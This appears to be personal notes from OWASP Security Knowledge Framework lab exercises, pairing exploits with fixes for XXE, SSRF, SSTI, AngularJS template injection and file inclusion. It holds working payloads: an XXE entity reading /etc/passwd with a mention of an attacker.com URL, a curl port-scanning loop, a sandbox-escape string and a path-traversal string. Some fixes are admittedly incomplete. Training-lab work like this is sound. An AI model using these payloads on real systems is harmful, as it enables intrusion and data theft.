 # XXE
## Preparation
docker pull blabla1337/owasp-skf-lab:
docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:
## Exploit
Add entity and bind this to a variable that will be printed:
```<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<creds>
    <user>&xxe;</user>
    <pass>mypass</pass>
</creds>```

So if you want to go to an external site, you could just place a path there:
"http://www.attacker.com/text.txt" instead of the file.
## Fix
https://docs.python.org/3/library/xml.dom.pulldom.html
So we add an extra parser.
Add imports:
from xml.sax import make_parser
from xml.sax.handler import feature_external_ges^M
Add parser:                                 
    parser = make_parser()                                
    parser.setFeature(feature_external_ges, False)                
    doc = parseString(request.form['xxe'],parser=parser)^M        


# SSRF
## Exploit
Check for different ports on localhost:
http://127.0.0.1:3306
automated:
in burp right click request and copy as bash script, modify in loop to:
for i in {1..10000} ; do echo $i; curl -i -s -k  -X $'POST' -F url=http://127.0.0.1:${i} $'http://security:5000/check_existence' |grep "is reach" ; done ;
not very pretty but it works...
-> other open port 5432
## Fix
blacklist localhost, so it won't search in its own space


# SSTI
## Exploit
http://localhost:5000/{{1=1}}
and other real exploits from:
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2
## Fix
Move template to its own file. in /templates directory
```
<!DOCTYPE html>                                                                                                                                                      
<html>                                                                                                                                                                 
<head>                                                                                                                                                                 
                                                                                                                                                                       
<meta charset="utf-8">                                                                                                                                                 
<meta name="viewport" content="width=device-width, initial-scale=1">                                                                                                   
<title>Live demonstrations</title>                                                                                                                                     
                                                                                                                                                                       
<link href="/static/css/bootstrap.min.css" rel="stylesheet">                                                                                                           
<link href="/static/css/datepicker3.css" rel="stylesheet">                                                                                                             
<link href="/static/css/styles.css" rel="stylesheet">                                                                                                                  
                                                                                                                                                                       
<!--Icons-->                                                                                                                                                           
<script src="/static/js/lumino.glyphs.js"></script>                                                                                                                    
                                                                                                                                                                       
</head>                                                                                                                                                                
                                                                                                                                                                       
<body>                                                                                                                                                                 
        <nav class="navbar navbar-inverse navbar-fixed-top" role="navigation">                                                                                         
                <div class="container-fluid">                                                                                                                          
                        <div class="navbar-header">                                                                                                                    
                                <button type="button" class="navbar-toggle collapsed" data-toggle="collapse" data-target="#sidebar-collapse">                          
                                        <span class="sr-only">Toggle navigation</span>                                                                                 
                                        <span class="icon-bar"></span>                                                                                                 
                                        <span class="icon-bar"></span>                                                                                                 
                                        <span class="icon-bar"></span>                                                                                                 
                                </button>                                                                                                                              
                                <ul class="user-menu">                                                                                                                 
                                        <li class="dropdown pull-right">                                                                                               
                                                                                                                                                                       
                                                <ul class="dropdown-menu" role="menu">                                                                                 
                                                </ul>                                                                                                                  
                                        </li>                                                                                                                          
                                </ul>                                                                                                                                  
                        </div>                                                                                                                                         
                </div><!-- /.container-fluid -->                                                                                                                       
        </nav>                                                                                                                                                         
                                                                                                                                                                       
        <div id="sidebar-collapse" class="col-sm-3 col-lg-2 sidebar">                                                                                                  
        <br/><br/>                                                                                                                                                     
        <center>                                                                                                                                                       
                <img src="/static/img/logo.svg" width="60%" height="60%"/>                                                                                             
                <br/>                                                                                                                                                  
                <p style="color:#515594; font-size:1.0em;"><a href="https://github.com/blabla1337/skf-flask" style="color:#515594; font-size:1.7em;">OWASP S.K.F.</a></p>
        </center>                                                                                                                                                      
        </div><!--/.sidebar-->                                                                                                                                         
                                                                                                                                                                       
        <div class="col-sm-9 col-sm-offset-3 col-lg-10 col-lg-offset-2 main">                           
                <div class="row">                                                                       
                                                                                                        
                </div><!--/.row-->                                                                      
                                                                                                                                                                        
                <div class="row">                                                                                                                                      
                        <div class="col-lg-12">                                                                                                                        
                                <h1 class="page-header">Live demonstration!</h1>                                                                                       
                        </div>                                                                                                                                         
                </div><!--/.row-->                                                                                                                                     
                                                                                                                                                                       
                                                                                                                                                                       
                <div class="row">                                                                                                                                      
                        <div class="col-lg-12">                                                                                                                        
                                <div class="panel panel-default">                                                                                                      
                                        <div class="panel-heading">Server side template injection!</div>                                                               
                                        <div class="panel-body">                                                                                                       
                                                <div class="col-md-6">                                                                                                 
                                                        {{ssti}}                                                                                                            
                                </div>                                                                                                                                 
                                                </form>                                                                                                                
                                        </div>                                                                                                                         
                                </div>                                                                                                                                 
                        </div><!-- /.col-->                                                                                                                            
                </div><!-- /.row -->                                                                                                                                   
                                                                                                                                                                       
     <center> <p style="font-size:2em;">   </p></center>                                                                                                               
                                                                                                                                                                       
        </div><!--/.main-->                                                                                                                                            
                                                                                                                                                                       
        <script src="/static/js/jquery-1.11.1.min.js"></script>                                                                                                        
        <script src="/static/js/bootstrap.min.js"></script>                                                                                                            
        <script src="/static/js/chart.min.js"></script>                                                                                                                
        <script src="/static/js/chart-data.js"></script>                                                                                                               
        <script src="/static/js/easypiechart.js"></script>                                                                                                             
        <script src="/static/js/easypiechart-data.js"></script>                                                                                                        
        <script src="/static/js/bootstrap-datepicker.js"></script>                                                                                                     
                                                                                                                                                                       
        </script>                                                                                                                                               
</body>                                                                                                                                                                
                                                                                                        
</html>
```                        
          
```
from flask import Flask, request, url_for, render_template

app = Flask(__name__, static_url_path='/static', static_folder='static')
app.config['DEBUG'] = True


@app.errorhandler(404)
def page_not_found(e):
    return render_template("template.html", ssti=request.url), 404


if __name__ == "__main__":
    app.run(host='0.0.0.0') 
```

but now we might have XSS:
{% autoescape true %}{{ssti}}{% endautoescape %}                                                                                                            


# CSTI
!!! Works in Chrome but exploit won't work in Firefox !!!
## Exploit
vulnerability in angularjs 1.5 for CSTI, see line 137:
https://github.com/tijme/angularjs-csti-scanner/blob/master/acstis/Payloads.py
```
{{c=''.sub.call;b=''.sub.bind;a=''.sub.apply;c.$apply=$apply;c.$eval=b;op=$root.$$phase;$root.$$phase=null;od=$root.$digest;$root.$digest=({}).toString;C=c.$apply(c);$root.$$phase=op;$root.$digest=od;B=C(b,c,b);$evalAsync("astNode=pop();astNode.type='UnaryExpression';astNode.operator='(window.X?void0:(window.X=true,alert(1)))+';astNode.argument={type:'Identifier',name:'foo'};");m1=B($$asyncQueue.pop().expression,null,$root);m2=B(C,null,m1);[].push.apply=m2;a=''.sub;$eval('a(b.c)');[].push.apply=a;}}
```
## Fix
{% autoescape true %}{{ssti}}{% endautoescape %}                                                                                                            
TODO: how do you know that autoescape also escapes {{ and other angularJS risky characters?


# Insecure Deserialization
How to recognize it on the wire? Binary format is AC ED 00 05 (05 being the protocol version number)
most exploited one is using commands from Java Apache Common Collection as it's in the classpath most of the time
https://github.com/frohoff/ysoserial

DES-Yaml
## Exploit
TODO
## Fix
TODO


# LFI/RFI
## Exploit
In payload use text/../../../../../../../../etc/passwd
## Fix
whitelist
